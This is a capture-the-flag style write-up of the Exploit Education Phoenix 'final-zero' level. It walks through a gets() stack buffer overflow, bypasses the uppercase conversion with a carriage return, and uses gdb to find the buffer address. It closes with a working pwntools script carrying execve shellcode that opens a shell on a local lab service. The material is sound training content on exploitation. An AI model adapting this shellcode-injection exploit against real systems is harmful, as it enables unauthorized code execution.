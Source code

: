 ```yaml
---
title: "Phoenix - Final Zero"
classes: wide
header:
  teaser: /assets/images/binary-exploitation/exploit-education/exploit-education.png
ribbon: red
description: "This level has a classic stack buffer overflow through **gets** function, so we inject our shellcode in the buffer then overflow the buffer and jump to our shellcode address, easy right :)
The problem here is the for loop that converts every character in our buffer to uppercase using **toupper** function, so our shellcode will be ruined..."
categories:
  - Binary Exploitation
---
```



```c
#include <ctype.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *s);

/*
 * Read the username in from the network
 */

char *get_username() {
  char buffer[512];
  char *q;
  int i;

  memset(buffer, 0, sizeof(buffer));
  gets(buffer);

  /* Strip off trailing new line characters */
  q = strchr(buffer, '\n');
  if (q) *q = 0;
  q = strchr(buffer, '\r');
  if (q) *q = 0;

  /* Convert to lower case */
  for (i = 0; i < strlen(buffer); i++) {
    buffer[i] = toupper(buffer[i]);
  }

  /* Duplicate the string and return it */
  return strdup(buffer);
}

int main(int argc, char **argv, char **envp) {
  char *username;

  printf("%s\n", BANNER);
  fflush(stdout);

  username = get_username();
  printf("No such user %s\n", username);
}
```

This level has a classic stack buffer overflow through **gets** function, so we inject our shellcode in the buffer then overflow the buffer and jump to our shellcode address, easy right :)

The problem here is the for loop that converts every character in our buffer to uppercase using **toupper** function, so our shellcode will be ruined.

If we look before the for loop we can see that the code terminates the buffer at any newline **\n** or carriage return **\r**.

If we enter a newline our input will terminate anyway so nothing to do here but the carriage return **\r** doesn't terminate the input, we can see the man page for **get**:

```
DESCRIPTION
       Never use this function.
       gets()  reads a line from stdin into the buffer pointed to by s until either a terminating newline or EOF, which it replaces with a null byte ('\0').
```

As we see **gets** will terminate the input on **'\n'** and **'\0'** only, great.

So the exploit here is to place our shellcode after **\r** with will be replaced by **'\0'** so that the for loop can't reach our shellcode (**strlen** stops at '\0').

```
$ gdb -q /opt/phoenix/amd64/final-zero 
Reading symbols from /opt/phoenix/amd64/final-zero...(no debugging symbols found)...done.

gef➤  disassemble get_username 
Dump of assembler code for function get_username:
.....
   0x00000000004007f2 <+37>:	lea    rax,[rbp-0x220]
   0x00000000004007f9 <+44>:	mov    rdi,rax
   0x00000000004007fc <+47>:	call   0x4005d0 <gets@plt>
   0x0000000000400801 <+52>:	lea    rax,[rbp-0x220]
.....

gef➤  b *0x0000000000400801
Breakpoint 1 at 0x400801

gef➤  r
Starting program: /opt/phoenix/amd64/final-zero 
Welcome to phoenix/final-zero, brought to you by https://exploit.education
AAAAAAAA
Breakpoint 1, 0x0000000000400801 in get_username ()

gef➤  x/xg $rbp-0x220
0x7fffffffe410:	0x4141414141414141
```

The buffer is at offset 0x220 = 544 bytes and it's at address **0x7fffffffe410**, great (not really).

If you tried to overwrite **RIP** with this address the exploit won't work so we should investigate more.

We need to debug the process we are sending the payload to instead of debugging locally, so we will open two terminals one for the connection and another for gdb.

```
# First Terminal:

$ nc localhost 64003
Welcome to phoenix/final-zero, brought to you by https://exploit.education
```

```
# Second Terminal:

$ ps aux | grep final
phoenix+ 14770  0.5  0.0    752     4 ?        Ss   18:55   0:00 /opt/phoenix/amd64/final-zero
user     14772  0.0  0.0   5136   984 pts/2    S+   18:55   0:00 grep final

$ sudo gdb -p 14770
Attaching to process 14770
Reading symbols from target:/opt/phoenix/amd64/final-zero...(no debugging symbols found)...done.

gef➤  b *0x0000000000400801
Breakpoint 1 at 0x400801

gef➤  c
Continuing.
```

Now enter some input in the first terminal like "AAAAAAAA".

```
Breakpoint 1, 0x0000000000400801 in get_username ()

gef➤  x/xg $rbp-0x220
0x7fffffffea60: 0x4141414141414141
```

As you can see the address of buffer if very far from our first address, offset between them = 0x7fffffffea60 - 0x7fffffffe410 = 1616 bytes.

So we will replace our **RIP** with an address close enough to **0x7fffffffea60** and we are done.

# Solution:

```python
# solve.py

from pwn import *

shellcode = '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'

con = remote('localhost', 64003)
print(con.recvline())					# receive the greeting message

buff = ""
buff += 'A'*7 + '\r'					# JUNK
buff += '\x90'*200					# some NOPS
buff += shellcode					# our shellcode
buff += 'A' * (544 - len(buff))				# JUNK
buff += 'BBBBBBBB'					# RBP value
buff += p64(0x7fffffffea90)				# RIP value

con.send(buff)						# send the payload
con.interactive()					# interactive shell
```

```
$ python solve.py 
[+] Opening connection to localhost on port 64003: Done
Welcome to phoenix/final-zero, brought to you by https://exploit.education
[*] Switching to interactive mode

$ whoami
phoenix-amd64-final-zero
```